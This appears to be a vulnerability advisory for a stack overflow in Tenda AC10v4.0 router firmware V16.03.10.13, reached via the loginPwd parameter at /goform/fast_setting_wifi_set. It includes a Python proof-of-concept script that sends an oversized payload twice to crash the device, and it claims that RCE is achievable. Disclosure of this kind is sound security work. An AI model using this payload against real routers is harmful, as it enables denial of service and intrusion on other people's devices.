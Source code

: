 ## Affected Version
* Tenda-AC10v4.0 V16.03.10.13

## Vulnerability Description
Tenda-AC10v4.0 V16.03.10.13  was discovered to contain a stack overflow via parameter loginPwd at url **/goform/fast_setting_wifi_set**.Through this stack overflow and a carefully constructed ROP chain, RCE can be achieved.

## Vulnerability Details
**In function sub_44D898 (in function form_fast_setting_wifi_set), there is no limit on the length of loginPwd, and the SetValue("sys.userpass", v3); function can be called. When accessing this URL again, GetValue("sys.userpass", v4); will cause a stack overflow through v4.**

![alt text](image.png)

* exp

```python
import sys
import requests

payload = b'A'*0x500

url = f"http://192.168.50.100/goform/fast_setting_wifi_set"
data = {
    "loginPwd":payload
}
requests.post(url=url, data=data)
#Visit the URL again and use the GetValue("sys.userpass", v4) function to overflow the stack
requests.post(url=url, data=data)

```

## Any suggested solutions to fix
check loginPwd length before SetValue
